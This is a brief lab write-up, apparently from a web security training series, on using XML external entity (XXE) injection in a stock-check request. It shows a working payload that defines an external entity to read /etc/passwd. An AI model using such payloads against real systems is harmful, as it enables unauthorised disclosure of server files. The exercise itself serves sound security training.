


# Exploiting XXE to retrieve files

## Lab #1: Exploiting XXE using external entities to retrieve files

> This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
> 
> To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file. 

Check stock request has content type of `application/xml`



Add custom external entities to read `/etc/passwd` file 

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY passwd SYSTEM "file:///etc/passwd"> ] >
<stockCheck><productId>&passwd;</productId><storeId>1</storeId></stockCheck>
```

Solved




